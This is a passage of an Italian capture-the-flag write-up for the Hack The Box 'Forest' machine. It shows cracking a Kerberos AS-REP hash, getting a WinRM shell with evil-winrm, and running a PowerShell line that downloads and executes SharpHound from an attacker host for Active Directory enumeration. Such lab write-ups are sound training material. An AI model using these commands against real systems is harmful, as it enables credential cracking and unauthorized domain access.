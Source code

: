 Cracchiamo la password con *john*:

```shell
└─$ john hash -w=../rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:06 DONE (2022-07-14 04:46) 0.1626g/s 664351p/s 664351c/s 664351C/s s401413..s3r1bu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Abbiamo user e password quindi vediamo se c'è *winrm*:

```shell
└─$ crackmapexec winrm -u svc-alfresco -p 's3rvice' -d htb.local 10.10.10.161
HTTP        10.10.10.161    5985   10.10.10.161     [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   10.10.10.161     [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Ok, ci colleghiamo tramite *evil-winrm*:

```shell
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

In *C:\Users\svc-alfresco\Desktop* abbiamo la user flag: `66fcc011613ac8538ae199a440c67c61`

## 3. svc-alfresco to System
Carichiamo [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1) per collezionare i dati per [BloodHound](https://github.com/BloodHoundAD/BloodHound): `iex(new-object net.webclient).downloadstring("http://10.10.14.16:8000/SharpHound.ps1")`

Quindi andiamo a eseguire: `invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice`

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir


    Directory: C:\Users\svc-alfresco\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/14/2022   2:58 AM          18147 20220714025759_BloodHound.zip
-a----        7/14/2022   2:58 AM          19610 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
```
